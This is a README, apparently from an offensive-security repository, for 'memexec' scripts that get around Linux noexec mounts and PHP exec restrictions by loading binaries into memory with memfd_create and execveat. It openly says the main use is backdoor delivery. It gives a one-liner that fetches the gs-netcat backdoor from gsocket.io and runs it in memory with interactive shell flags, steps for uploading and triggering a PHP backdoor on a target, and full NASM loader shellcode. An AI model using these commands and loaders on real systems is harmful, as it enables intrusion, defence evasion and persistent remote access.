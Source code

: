 ## Circumvent the `noexec` mount flag on Linux and execute abritrary binaries

This if useful on a Linux system when all writeable locations are mounted with `-o noexec` (including /dev/shm) or to escape PHP's 'exec' restrictions.

Use _one_ of the 3 scripts (perl, bash, php):

- The binary does not need to have +x
- The binary can reside on a noexec-partition
- Mostly the binary can be piped directly from the Internet into the memory (and executed there)
- Works as non-root users
- The PHP variant also circumvents PHP's "exec" restrictions.
- It injects shellcode into the running process and calls [memfd_create(2)](https://man7.org/linux/man-pages/man2/memfd_create.2.html) and [execveat(2)](https://man7.org/linux/man-pages/man2/execveat.2.html) to load a binary from a noexec-partition (or directly from the Internet).
- BASH and PHP do not support SYSCALLS. We advanced an old trick.

Read the [circumventing the noexec Article](SOON) for more....

PERL example:
```sh
source memexec-perl.sh
cat /usr/bin/id | memexec -u
```
This was golfed by the fine people on Mastodon ([@acut3hack](https://@acut3hack@infosec.exchange), [@addision](https://@addison@nothing-ever.works), [@ilv](https://@ilv@infosec.exchange))

BASH example (by [@messede-degod](https://github.com/messede-degod):
```sh
source memexec-bash.sh
cat /usr/bin/id | memexec
```

The educated reader understands that this is mostly used to pipe a backdoor from the Internet directly into memory, even when execution is prohobited by `noexec`:
```shell
curl -SsfL https://gsocket.io/bin/gs-netcat_mini-linux-x86_64 | GS_ARGS="-ilDq -s ChangeMe" perl '-efor(319,279){($f=syscall$_,$",1)>0&&last};open($o,">&=".$f);print$o(<STDIN>);exec{"/proc/$$/fd/$f"}X,@ARGV' -- "$@"
```

The PHP variant also circumvents ["shell_exec" restrictions](https://www.cyberciti.biz/faq/linux-unix-apache-lighttpd-phpini-disable-functions/).

1. Upload `memexec.php` and `egg` (your backdoor) onto the target
2. Call `curl -SsfL https://target/memexec.php` to execute `egg`

---

For the druggies among us, here is some NASM to keep you happy.
```nasm
; nasm -felf64 open.nasm && ld open.o &&  ./a.out
; 
global _start
section .text

_start:
    push    0x00676765  ; "egg"
    mov     rax, 0x13f
    mov     rdi, rsp    ; arg 1: name [egg]
    xor     rsi, rsi    ; arg 2: 0 = no MFD_CLOEXEC
    syscall
    mov     r8, rax

    mov     rax, 2
    mov     rdi, rsp    ; arg 1: name [egg]
    xor     rsi, rsi    ; arg 2: 0 = O_RDONLY
    syscall
    mov     r9, rax

loop:
    sub     rsp, 0x400
    xor     rax, rax    ; arg 0: read_NR
    mov     rdi, r9     ; arg 1: FD [egg]
    mov     rsi, rsp    ; arg 2: buffer
    mov     edx, 0x400  ; arg 3: length
    syscall

    cmp     rax, 0x00
    jle     done        ; EOF

    mov     rdx, rax    ; arg 2: length (from read()) 
    mov     eax, 0x01   ; arg 0: write_NR
    mov     rdi, r8     ; arg 3: FD [memfd]
    syscall
    jmp     loop
done:

    mov     rax, 322    ; arg 0: execveat_NR
    mov     rdi, r8     ; arg 1: memfd
    push    0x00
    mov     rsi, rsp    ; arg 2: path (empty string)
    xor     rdx, rdx    ; arg 3: ARGV [NULL]
    xor     rcx, rcx    ; arg 4: ENV ?
    xor     r9, r9      ; arg 4: ENV ?
    xor     r10, r10    ; arg 4: ENV
    mov     r8, 0x1000  ; arg 5: AT_EMPTY_PATH
    syscall
    
    mov     rax, 60
    xor     rdi, rdi
    syscall
```
